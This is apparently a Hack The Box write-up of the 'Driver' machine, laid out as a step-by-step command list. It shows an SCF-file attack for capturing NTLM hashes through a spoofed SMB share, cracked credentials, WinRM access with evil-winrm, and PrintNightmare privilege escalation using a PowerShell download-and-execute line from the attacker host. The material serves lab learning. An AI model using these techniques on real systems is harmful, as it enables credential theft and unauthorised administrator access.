 ```yaml
---
layout: post
title: HTB Machine - Driver
subtitle: Writeup
cover-img: https://www.hackthebox.com/storage/avatars/ce42ce9fd28d117b8d6c045aefeb5cdb.png
thumbnail-img: https://www.hackthebox.com/storage/avatars/ce42ce9fd28d117b8d6c045aefeb5cdb.png
share-img: https://www.hackthebox.com/storage/avatars/ce42ce9fd28d117b8d6c045aefeb5cdb.png
tags: [ HTB, Hack the Box, Web, Network, Vulnerability Assessment, Protocols, Outdated Software, Security Tools, Authentication, Metasploit, WinRM, Password Cracking, SCF File Attack, Hash Capture, Default Credentials]
---
```


##### there is a webpage that we can access with admin:admin credentials. Inside the menus there is an option to upload files. When a file that is share locally is open an icon can be loaded from a source, the user will need to authn to get that icon and we can capture those credentials to crack later. We create the scf file with the info below, the ICO file does not have to exist: 
```
[Shell]
Command=2
IconFile=\\10.10.14.3\SMBfolder\loquesea.ico
[Taskbar]
Command=ToggleDesktop
```

##### Set impacket to spoof a SMB server and capture authN details.
```bash
impacket-smbserver SMBfolder $(pwd) -smb2support
```
##### capture the credentials of tony and crack with john
```bash
tony:liltony
```
##### Validate the user with crackmapexec (+ left to the user)
```bash
crackmapexec smb 10.10.11.106 -u 'tony' -p 'liltony'
```
##### Validate that the user could access through winrm
```bash
crackmapexec winrm 10.10.11.106 -u 'tony' -p 'liltony'
```
##### the user is part of remote mgmt users because it says (pwn3d!) in the previous output. WE could connect with winRM
```bash
evil-winrm -i 10.10.11.106 -u 'tony' -p 'liltony'
```
##### once inside. verify user is part of Remote MGMt users with:
```bash
net user tony
```
##### and we get user flag. After we cannot gain access to the admin folder so we need to escalate priviledges. We check the priveleges for our user with:
```bash
whoami /priv

whoami /all
```
##### How to get to the point you know the printer is the vulnerability?

##### We can exploit a printer vuln, a PS script will create a user via a dll. first we need the script. Download it to the attack machine and serve it via a python server.

https://github.com/calebstewart/CVE-2021-1675

##### download to the windows machine with the following command:
```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/CVE-2021-1675.ps1')
```
##### to execute run the following:
```bash
Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure" 
```
##### this will create a user, you can double check with "net user" command. After that in the attacking machine verify the user exist and it works:
```bash
crackmapexec winrm 10.10.11.106 -u 'john' -p 'SuperSecure'
```
##### then winrm with it
```bash
evil-winrm 10.10.11.106 -u 'john' -p 'SuperSecure'
```

